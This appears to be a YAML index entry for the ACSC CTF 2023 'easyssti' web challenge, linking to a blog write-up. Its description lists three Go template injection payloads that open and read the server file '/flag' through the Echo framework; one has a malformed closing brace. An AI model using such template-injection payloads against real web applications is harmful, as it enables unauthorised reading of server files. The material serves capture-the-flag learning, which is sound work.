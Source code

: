 ```yaml
---
title: "ACSC CTF 2023 - easyssti"
description: "Example:



{{ $x := .Echo.Filesystem.Open \"/flag\" }} {{ $x.Seek 1 0 }} {{ .Stream 200 \"text/plain\" $x }} (by @nyancat)
{{ (.Echo.Filesystem.Open \"/flag\").Read (.Get \"template\") }} {{ .Get \"template\" }} (by @maple3142)
{{ $f := .Echo.Filesystem.Open \"/flag\" }} {{ $buf := .Get \"template\" }} {{ $f.Read $buf }} {{ $buf } (by @Ocean)



"
url: "https://blog.hamayanhamayan.com/entry/2023/02/26/124239#web-easySSTI"
category: "Miscellaneous"
---
```

